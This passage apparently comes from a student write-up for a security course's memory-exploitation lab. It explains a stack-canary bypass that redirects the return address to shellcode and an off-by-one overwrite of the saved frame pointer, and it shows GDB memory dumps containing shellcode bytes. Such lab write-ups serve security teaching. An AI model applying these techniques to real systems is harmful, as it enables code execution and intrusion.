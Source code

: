 ### Exploit Structure

The exploit has four parts:

1. Write 16 dummy bytes to fill up the `c.buffer` local variable.
2. Overwrite the stack canary with itself.
3. Write 4 dummy bytes to overwrite the `sfp`.
4. Overwrite the `rip` with the address of the shellcode. Since we are putting shellcode directly after the rip, we overwrite the `rip` with *0xffffd900*.
5. Finally, insert the shellcode directly after the `rip`.

### Exploit GDB Output

```c
(gdb) x/16x c.buffer
0xffffd8dc:     0x3134785c      0x3134785c      0x3134785c      0x3134785c
0xffffd8ec:     0x422ef21e      0x3134785c      0x3134785c      0x3134785c
0xffffd8fc:     0xffffd900      0xdb31c031      0xd231c931      0xb05b32eb
0xffffd90c:     0xcdc93105      0xebc68980      0x3101b006      0x8980cddb
```

After 16 bytes of garbage, the stack canary is unchanged and followed by another 12 bytes of garbage, then the rip is overwritten with *0xffffd900*, which points to the shellcode directly after the rip.

## Question 4

### Main Idea

The code is vulnerable because it incorrectly set `i<=64` (instead of `i<64`) as the condition for its for loop to continue. This off-by-one mistake allows us to write past the end of the local variable `buf` and overwrite the LSB of the `sfp` of the function `invoke`. We take advantage of this vulnerability and changes the `sfp` to point to the local variable `buf`. When a second function return happens, the program will go to `buf+4` and execute the code it points to.

### Magic Numbers

We only need to determine the address of the local variable `buf` (*0xffffd840*) and of the shellcode which is used as an environment variable (*0xffffdf9c*).

```c
(gdb) p buf
$1 = 0xffffd840 ""
```

```c
(gdb) x/16bx environ[4]
0xffffdf98:     0x45    0x47    0x47    0x3d    0x6a    0x32    0x58    0xcd
0xffffdfa0:     0x80    0x89    0xc3    0x89    0xc1    0x6a    0x47    0x58
```

### Exploit Structure

The exploit has four parts:
